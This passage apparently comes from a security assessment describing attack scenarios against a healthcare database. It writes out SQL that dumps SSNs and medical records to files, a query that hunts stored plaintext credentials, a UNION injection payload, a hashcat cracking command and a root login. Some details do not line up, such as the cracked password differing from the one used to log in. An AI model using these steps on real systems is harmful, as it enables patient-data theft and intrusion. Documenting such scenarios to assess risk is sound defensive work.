 4. **Data Exfiltration:**
```sql
-- Dump all SSNs
SELECT first_name, last_name, ssn, dob 
FROM patients 
INTO OUTFILE '/tmp/stolen_ssn.csv';

-- Export medical records
SELECT * FROM medical_records 
INTO OUTFILE '/tmp/phi_breach.csv';
```

5. **Find Additional Credentials:**
```sql
-- Check comments for plaintext passwords
SELECT * FROM comments WHERE plaintext_credential IS NOT NULL;
-- Reveals: backup server, LDAP, VPN credentials!
```

**Impact:**
- 50 SSNs stolen (identity theft)
- 200+ medical records exposed (HIPAA breach)
- Lateral movement credentials obtained
- Estimated breach cost: $429 per record × 50 = $21,450+

---

### Scenario 2: SQL Injection → Privilege Escalation

**Attack Steps:**

1. **SQL Injection in Application:**
```sql
-- Vulnerable query in application:
"SELECT * FROM patients WHERE id = " + user_input

-- Inject:
1' UNION SELECT username, password_hash, NULL, NULL, NULL 
FROM users WHERE role='admin'--
```

2. **Extract Password Hashes:**
```
Results:
admin | 5f4dcc3b5aa765d61d8327deb882cf99 | ...
```

3. **Crack MD5 Hash:**
```bash
echo "5f4dcc3b5aa765d61d8327deb882cf99" | hashcat -m 0 -a 3
# Cracks to: "password"
```

4. **Login as Admin:**
```bash
mysql -h target-host -u root -padmin123
```
